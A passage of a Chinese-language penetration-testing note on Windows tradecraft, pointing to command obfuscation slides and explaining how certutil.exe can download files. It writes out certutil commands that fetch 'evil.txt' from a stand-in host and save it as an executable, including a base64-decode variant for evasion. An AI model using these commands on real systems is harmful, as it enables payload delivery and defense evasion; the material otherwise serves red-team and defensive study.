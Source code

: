 ![image-20210907100734469](../_img/image-20210907100734469-4138597.png)

更多的功能可以参考[D1T2 - Daniel Bohannon - Invoke-DOSfuscation.pdf (hitb.org)](https://conference.hitb.org/hitbsecconf2018ams/materials/D1T2 - Daniel Bohannon - Invoke-DOSfuscation.pdf)

## certutil

certutil.exe是一个命令行程序，作为证书服务的一部分安装，你可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件，以及验证证书，密钥对和证书链。

我们可以利用certutil.exe去下载我们的文件

```
//下载命令
certutil -urlcache -split -f http://example.com/evil.txt test.exe
//base64后进行下载
certutil -urlcache -split -f http://example.com/base64.txt
certutil -decode base64.txt test.exe

```

当我们下载成功后会存在一个日志文件，执行certutil.exe 可以看到我们的日志

![image-20210830163743555](../_img/image-20210830163743555-4138597.png)
